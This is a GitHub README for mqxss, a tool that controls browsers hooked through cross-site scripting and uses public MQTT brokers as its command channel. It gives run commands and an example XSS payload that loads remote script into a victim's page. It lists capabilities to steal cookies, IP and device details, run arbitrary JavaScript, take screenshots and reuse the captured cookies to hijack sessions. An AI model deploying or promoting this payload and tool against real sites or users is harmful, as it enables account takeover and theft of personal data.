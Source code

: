 # mqxss


## **mqxss acts as a client to communicate with hooked browsers over MQTT**



![Screenshot from 2023-07-03 15-15-35](https://github.com/grampae/mqxss/assets/36344197/d5fae62a-bc5c-4d98-b45e-03cdf541e979)




The benefit to using this over beef or xsshunter is that besides hosting the js payload there is no infra setup, you can use a public broker (however currently uses obfuscation, encryption is in the works).

Hooked browsers will communicate in the MQTT topic on the broker you specify, there are many public/free brokers to test this with.
 

The client utilizes the python paho.mqtt library while the js payload utilizes 'mqttws31.min.js' which it pulls from here 'https://cdnjs.cloudflare.com/ajax/libs/paho-mqtt/1.0.1/mqttws31.min.js'.
 
***
 
## Directions
 
**To generate a JS payload** to hook browsers with set the `-g` flag at runtime along with your broker, port and topic variables.  Doing so will create your payload in the /js/ folder.  

**To run the client** provide your broker, port, and topic as so 
 
`mqxss.py -p 8081 -b some.mqtt.broker.com -t mytopicname`

**To run the client with credentials** provide your broker, port, user name, password and topic as so 

`mqxss.py -p 8081 -b some.mqtt.broker.com -t mytopicname -u username -pw password`
  
**Send your XSS payload** to the victim while the mqxss client is running, ex: `'"><script src=https://example.com/x.js async></script>` or something similar, if vulnerable you should get a notification saying the browser has connected with some basic details including cookies etc.
 
![a](https://github.com/grampae/mqxss/assets/36344197/20096c91-2e9e-4302-b5a9-e2edd665d382)

***
 
**Features:**

- **js payload utilizes MQTT QoS 1 and Last Will, mqxss will be notified of disconnects or connects that occur while client is not connected to the broker**
- **generate js payload at runtime to hook browsers with**
- **currently only works with mqtt brokers that use secure websockets**
- **open hooked browser location with captured cookies in browser for convenience**
- **when hooked it grabs cookies, ip, device type, user agent**
- **view past hooked (unhooked) browsers**
- **send js to currently hooked browsers and get response if available**
- **screenshot of hooked browser**
- **set user , password  for brokers that require it at runtime**
- **pushover notification by setting ptoken and userkey variables in mqxss.py, then utilizing the -po command line flag**
